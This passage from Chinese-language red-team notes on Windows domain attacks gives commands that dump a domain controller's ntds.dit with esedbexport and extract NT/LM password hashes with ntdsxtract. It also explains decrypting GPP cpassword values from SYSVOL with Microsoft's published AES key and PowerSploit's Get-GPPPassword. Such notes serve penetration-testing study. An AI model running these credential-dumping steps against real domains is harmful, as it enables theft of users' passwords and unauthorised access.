 利用该工具从 ntds.dit 文件中转储表格
```
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```

---

### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../运维/windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP漏洞只在2008没打补丁版本上存在，超过2008版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。

![](../../../../assets/img/安全/笔记/RedTeam/Windows渗透/2.png)

- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
